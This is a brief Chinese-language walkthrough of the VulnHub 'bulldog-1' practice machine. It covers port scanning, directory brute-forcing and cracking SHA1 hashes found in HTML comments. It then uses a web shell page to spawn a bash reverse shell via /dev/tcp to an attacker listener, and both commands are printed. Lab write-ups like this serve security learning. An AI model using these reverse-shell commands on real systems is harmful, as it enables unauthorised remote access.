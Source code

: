 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態，DirBuster爆破目錄，發現在/dev/中的source code有提示
> <!--Need these password hashes for testing. Django's default is too complex-->
> <!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限，發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功

攻擊機:`nc -l 3333`

靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`

查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
